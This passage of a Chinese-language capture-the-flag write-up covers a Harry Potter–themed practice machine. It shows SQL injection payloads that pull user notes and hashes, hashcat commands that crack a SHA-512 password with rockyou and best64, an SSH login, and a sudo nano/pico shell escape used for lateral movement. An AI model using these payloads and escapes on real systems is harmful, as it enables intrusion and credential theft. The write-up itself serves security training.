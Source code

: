 ```python

```
- 取的所有的 hash
    - ![](https://i.imgur.com/G1a6hwW.png)
- 分析 hash 格式
    - ![](https://i.imgur.com/H01hoQz.png)
    - SHA 512
- 用哈希貓
    - ![](https://i.imgur.com/GRYM30j.png)
    - `hashcat -m 1700 hashes.txt spellnames.txt`
    - `hashcat -m 1700 hashes.txt /opt/rockyou.txt`
    - 發現基本上都爆不出來
- 觀察 notes
    - `'union select group_concat(notes),2,3,4 from users --`
    - ![](https://i.imgur.com/L5wm2pu.png)
    - ![](https://i.imgur.com/z6bqT3d.png)
        - 發現密碼用ㄌ `best64`
- 查詢哈希貓 `best64` 的用法
    - https://github.com/hashcat/hashcat/blob/master/rules/best64.rule
    - `hashcat -m 1700 hashes.txt /opt/rockyou.txt -r best64.rule`
    - ![](https://i.imgur.com/lYczWfH.png)
    - 成功爆出來密碼
        - `b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123`
    - ![](https://i.imgur.com/fOnYTtK.png)
- 回來用 SQLi 找使用者看看
    - `'user': "'union select name,2,3,4 from users where password like 'b326e7a6%' --`
    - ![](https://i.imgur.com/0xPvGbe.png)
    - Harry Turner
- 觀察他的 notes
    - `"'union select notes,2,3,4 from users where password like 'b326e7a6%' --`
    - ![](https://i.imgur.com/FKMzlOs.png)
    - 使用 first name

## SSH
- `ssh harry@hogwartz-castle.thm`
    - 密碼 ： `wingardiumleviosa123`
    - ![](https://i.imgur.com/glQH9j0.png)
    - 登入成功
    - ![](https://i.imgur.com/Ubpctjf.png)
## 提權
- `sudo -l`
    - ![](https://i.imgur.com/9eydEcN.png)
    - 發現一個叫做 `pico` 的程式
    - 可以用 `hermonine` 執行 pico
- 執行看看
    - ![](https://i.imgur.com/zFhwVe6.png)
    - 發現打開是 nano 
- 尋找利用方式
    - https://gtfobins.github.io/gtfobins/nano/#sudo
    - `sudo -u hermonine /usr/bin/pico`
    - `^R^X`
    - `reset; sh 1>&0 2>&0`
    - ![](https://i.imgur.com/Y0hDfkU.png)
    - 成功橫向移動
- 成功取得 User Flag
    - ![](https://i.imgur.com/zBGBeAD.png)

